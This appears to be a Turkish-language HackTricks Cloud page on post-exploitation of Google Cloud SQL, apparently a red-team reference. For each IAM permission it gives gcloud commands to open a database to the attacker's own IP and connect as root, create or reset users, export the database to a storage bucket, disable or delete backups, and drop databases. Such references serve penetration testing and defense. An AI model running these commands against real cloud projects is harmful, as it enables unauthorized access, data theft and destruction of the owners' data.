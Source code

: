 # GCP - Bulut SQL Sonrası Sızma

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitimi AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitimi GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek hacking püf noktalarını paylaşın.

</details>
{% endhint %}

## Bulut SQL

Bulut SQL hakkında daha fazla bilgi için şuraya bakın:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, (`cloudsql.instances.get`)

Veritabanlarına bağlanmak için sadece **veritabanı bağlantı noktasına erişiminiz** ve **kullanıcı adı** ve **şifre**'yi bilmek yeterlidir, IAM gereksinimleri yoktur. Dolayısıyla, veritabanının genel bir IP adresine sahip olduğunu varsayarsak, erişim sağlamanın kolay bir yolu, izin verilen ağları güncellemek ve **kendi IP adresinize erişime izin vermek**tir.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Ayrıca, veritabanının yedeklemelerini **bozmak** için **`--no-backup`** kullanmak da mümkündür.

Bu gereksinimler olduğu için **`cloudsql.instances.connect`** ve **`cloudsql.instances.login`** izinlerinin ne olduğundan emin değilim. Biliyorsanız bir PR gönderin!

### `cloudsql.users.list`

Veritabanının **tüm kullanıcılarının listesini** alın:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Bu izin, veritabanı içinde **yeni bir kullanıcı oluşturmayı** sağlar:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Bu izin, veritabanı içindeki kullanıcıyı güncellemeyi sağlar. Örneğin, şifresini değiştirebilirsiniz:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Yedeklemeler eski hassas bilgileri içerebilir, bu yüzden onları kontrol etmek ilginç olabilir.\
Bir veritabanı içinde bir yedeği geri yükle:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
### `cloudsql.backupRuns.delete`

Bu izin yedeklemeleri silmeye olanak tanır.
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

Veritabanını bir Cloud Storage Kova'ya dışa aktarın, böylece oradan erişebilirsiniz:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Bir veritabanını** (üzerine yaz) bir Bulut Depolama Kovağından içe aktar:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Veritabanını db örneğinden silin:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek hacking püf noktalarını paylaşın.

</details>
{% endhint %}
